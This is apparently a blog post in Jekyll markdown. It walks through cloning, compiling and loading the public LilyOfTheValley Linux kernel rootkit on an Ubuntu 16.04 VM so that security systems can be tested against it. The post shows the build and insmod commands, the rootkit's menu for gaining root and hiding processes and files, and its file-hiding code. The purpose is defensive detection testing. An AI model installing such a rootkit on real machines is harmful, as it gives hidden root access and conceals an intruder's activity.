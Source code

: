 ```yaml
---
layout: post
title: Install a Linux Rootkit to Test Security Systems With
categories:
header_image: "/img/roots.jpg"
header_permalink: "https://unsplash.com/photos/hW11fwjzVfA"

---
```


# {{ page.title }}

Let's say you wnat to install a rootkit to test with. There could be various reasons, maybe you are testing some kind of specialized security system. Regardless of the reason, you need a rootkit to test out. 

The first place I ended up at is [Awesome Rootkits](https://github.com/milabs/awesome-linux-rootkits), a big list of rootkits.

The one that I picked from that list, somewhat randomly, was [LilyOfTheValley](https://github.com/En14c/LilyOfTheValley). I have no good reason as to why I picked this particular one, other than it seemed to suggest it would work on several kernel versions, and was a small amount of code.

## WARNING

Obviously this is a rootkit. Don't install it on your local machine. Get a temporary, disposable virtual machine. Also, please review the code in the rootkit files. You've been warned!

## Install

The kernel version in this example is 4.4.0-22 on Ubuntu 16.04.

```
# uname -a
Linux old-kernely 4.4.0-22-generic #40-Ubuntu SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Clone the rootkit repo.

```
# git clone https://github.com/En14c/LilyOfTheValley
# cd LilyOfTheValley
```

Install build-essential.

```
# apt install build-essential -y
```

Get headers too.

```
# apt install linux-headers-4.4.0-22-generic
```

Make.

```
# make
make -C /lib/modules/4.4.0-22-generic/build M=/root/LilyOfTheValley modules
make[1]: Entering directory '/usr/src/linux-headers-4.4.0-22-generic'
  CC [M]  /root/LilyOfTheValley/lilyofthevalley.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/LilyOfTheValley/lilyofthevalley.mod.o
  LD [M]  /root/LilyOfTheValley/lilyofthevalley.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.4.0-22-generic'
```

Now there is a kernel module, lilyofthevalley.ko.

```
# ls -1
client.c
lilyofthevalley.c
lilyofthevalley.ko
lilyofthevalley.mod.c
lilyofthevalley.mod.o
lilyofthevalley.o
Makefile
modules.order
Module.symvers
README.md
```

Install that module.

```
# insmod lilyofthevalley.ko 
```

Once it's loaded /proc can be used to find commands that can be sent to the module.

```
# cat /proc/lilyofthevalleyr00tkit 
###########################
LilyOfTheValley Commands
###########################

	* [givemerootprivileges] -->> to gain root access
	* [hidepidPID] -->> to hide a given pid. replace (PID) with target pid
	* [unhidepidPID] -->> to unhide a given pid. replace (PID) with target pid
	* [hidingfiles] -->> just prepend lilyofthevalley to the file or dir name that u want to hide
```

Also, note how any files in the directory that started with the string "lilyofthevalley" now no longer appear in ls.

```
# ls -1
client.c
Makefile
modules.order
Module.symvers
README.md
```

This is because the rootkit makes those files "invisble."

See line 409 of lilyofthevalley.c.

```
	/*
	hide any file in  the root filesystem, 
	if first chars of it's name == r00tkit_name
	*/
	if (strncmp(name,R00TKIT_NAME,R00TKIT_NAMELEN) == 0)
		return 0;
```

Create a file that starts with that particular string. Note how it's not visible in ls.

```
# touch lilyofthevalley.txt
# ls
client.c  Makefile  modules.order  Module.symvers  README.md
```

After rebooting the node the kernel module is no longer loaded and the missing files are again visible..

```
# ls -1
client.c
lilyofthevalley.c
lilyofthevalley.ko
lilyofthevalley.mod.c
lilyofthevalley.mod.o
lilyofthevalley.o
lilyofthevalley.txt
Makefile
modules.order
Module.symvers
README.md
```

With the module in place secuirty systems can be tested to see if they can find it.